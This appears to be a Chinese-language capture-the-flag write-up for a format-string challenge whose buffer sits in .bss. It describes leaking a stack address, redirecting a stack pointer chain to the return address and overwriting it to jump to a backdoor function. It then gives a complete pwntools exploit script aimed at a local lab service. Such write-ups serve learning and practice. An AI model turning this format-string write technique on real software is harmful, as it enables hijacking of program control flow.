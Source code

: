> 你说得对，但是我的 fmt 在哪？
>
> 
>
> hint
>
> - 栈上有些比较长的链子，可以想一下怎么利用这些链子

预期难度：Normal++

bss 段上 fmt，有 3 次机会，给后门，也是标准的板子

- 第一次 leak stack
- 第二次改栈上的一个比较长的链子，使其指向返回地址
- 第三次通过修改后的指针来修改返回地址。但是这里为了栈对齐需要跳过最前面`push rbp`



**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path, force=True)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=9999, level=LOCAL, elf=elf_path)

elf = ELF(elf_path)
libc = ELF(libc_path, checksec=False)
io = conn()

def exp():
    pad = b'%15$p'
    io.sendlineafter(b'3 chances', pad)

    io.recvuntil(b'0x')
    stack = int(io.recv(12), 16) - 0x120
    success(hex(stack))
    
    pad = f'%{stack & 0xffff}c%15$hn'.encode()
    io.sendlineafter(b'chances', pad)
    
    backdoor = elf.symbols['backdoor'] + 5 # skip 'push rbp'
    pad = f'%{backdoor & 0xffff}c%{0x27 + 6}$hn'.encode()
    # DEBUG()
    io.sendlineafter(b'chances', pad)

    pass

try:
    exp()
    io.interactive()
finally:
    rm_core()
```
